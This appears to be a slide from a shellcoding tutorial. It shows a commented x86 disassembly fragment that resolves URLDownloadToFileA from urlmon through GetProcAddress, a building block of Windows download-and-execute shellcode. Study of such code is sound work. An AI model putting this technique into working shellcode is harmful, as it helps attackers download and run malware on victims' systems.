

# Get function from DLL (URLDownloadToFile)
00000090  83C410            add esp,byte +0x10       ; Clean stack
00000093  8B542404          mov edx,[esp+0x4]        ; EDX = GetProcAddress
00000097  33C9              xor ecx,ecx              ; ECX = 0
00000099  51                push ecx
0000009A  66B96541          mov cx,0x4165            ; eA
0000009E  51                push ecx
0000009F  33C9              xor ecx,ecx              ; ECX = 0
000000A1  686F46696C        push dword 0x6c69466f    ; oFil
000000A6  686F616454        push dword 0x5464616f    ; oadT
000000AB  686F776E6C        push dword 0x6c6e776f    ; ownl
000000B0  6855524C44        push dword 0x444c5255    ; URLD
000000B5  54                push esp                 ; "URLDownloadToFileA"
000000B6  50                push eax                 ; urlmon base address
000000B7  FFD2              call edx                 ; GetProc(URLDown)